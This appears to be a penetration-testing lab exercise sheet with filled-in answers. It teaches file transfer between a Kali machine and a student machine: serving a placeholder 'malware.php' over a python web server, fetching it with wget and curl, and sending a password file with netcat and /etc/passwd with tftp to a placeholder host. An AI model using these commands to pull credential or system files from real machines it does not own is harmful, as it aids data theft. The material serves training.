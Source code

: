 ### 6. Downloading Files

#### Exercices
1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, ccreate a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
1. On your Student machine, download the malware.txt file with the wget command.
    > Your command : wget X.X.X.X:5000/malware.php

1. On your Student machine, download the malware.txt file with the cURL command.
    > Your command : curl X.X.X.X:5000/malware.php --output malware.php

1. On the student machine, create a file named password.txt and transfer it to your kali machine with netcat
    > Your commands : touch password.txt  
    > ON RECEIVING END : nc -l -p 4444 > password.txt  
    > ON SENDING END : nc -w 5 [destination] 4444 < password.txt  

1. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
    > Your commands :  tftp X.X.X.X
                       get /etc/passwd
                       

                        
